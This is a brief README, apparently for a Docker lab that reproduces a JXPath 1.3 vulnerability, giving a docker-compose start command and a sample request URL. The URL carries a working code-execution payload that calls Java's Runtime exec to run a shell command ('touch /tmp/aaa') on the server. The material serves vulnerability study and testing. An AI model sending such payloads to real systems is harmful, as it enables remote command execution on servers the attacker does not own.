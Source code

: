 ## JXPath 1.3漏洞环境

## Usage

```bash
docker-compose up -d
```

漏洞点

```bash
http://x.x.x.x:8080/jxpath/attack?payload=exec(java.lang.Runtime.getRuntime(),'touch /tmp/aaa')
```

